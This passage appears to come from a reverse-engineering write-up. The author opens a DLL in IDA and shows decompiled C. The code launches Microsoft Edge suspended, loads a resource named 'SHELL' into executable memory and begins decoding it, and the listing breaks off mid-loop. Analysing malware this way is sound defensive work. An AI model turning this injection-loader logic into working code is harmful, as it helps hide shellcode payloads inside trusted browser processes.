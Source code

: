 There we go there we go, a lil bit of red, , I'll load the DLL into IDA to start reverse engineering on it and to understand its behavior.

```c=
int sub_7FFED6511000()
{
  HRSRC ResourceW; // rax
  HRSRC v1; // rdi
  DWORD v2; // ebx
  HGLOBAL Resource; // rax
  HRSRC v4; // rbp
  SIZE_T v5; // rsi
  HRSRC v6; // rdi
  DWORD v7; // edx
  HRSRC v8; // rcx
  __int64 v9; // rax
  DWORD (__stdcall *v10)(LPVOID); // rbx
  HRSRC v11; // rbx
  HMODULE phModule; // [rsp+50h] [rbp-B8h] BYREF
  struct _PROCESS_INFORMATION ProcessInformation; // [rsp+58h] [rbp-B0h] BYREF
  DWORD ExitCode; // [rsp+70h] [rbp-98h] BYREF
  SIZE_T NumberOfBytesWritten; // [rsp+78h] [rbp-90h] BYREF
  struct _STARTUPINFOW lpStartupInfo; // [rsp+80h] [rbp-88h] BYREF

  lpStartupInfo.cb = 104;
  memset(&lpStartupInfo.lpReserved, 0, 96);
  LODWORD(ResourceW) = CreateProcessW(
                         L"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe",
                         0LL,
                         0LL,
                         0LL,
                         0,
                         4u,
                         0LL,
                         0LL,
                         &lpStartupInfo,
                         &ProcessInformation);
  if ( ResourceW )
  {
    phModule = 0LL;
    LODWORD(ResourceW) = GetModuleHandleExW(4u, sub_7FFED6511000, &phModule);
    if ( ResourceW )
    {
      ResourceW = FindResourceW(phModule, 0x65, L"SHELL");
      v1 = ResourceW;
      if ( ResourceW )
      {
        v2 = SizeofResource(phModule, ResourceW);
        Resource = LoadResource(phModule, v1);
        ResourceW = LockResource(Resource);
        v4 = ResourceW;
        if ( ResourceW )
        {
          if ( v2 )
          {
            v5 = v2;
            ResourceW = VirtualAlloc(0LL, v2, 0x1000u, 0x40u);
            v6 = ResourceW;
            if ( ResourceW )
            {
              sub_7FFED651D400(ResourceW, v4, v2);
              v7 = 0;
              v8 = v6;
              do
```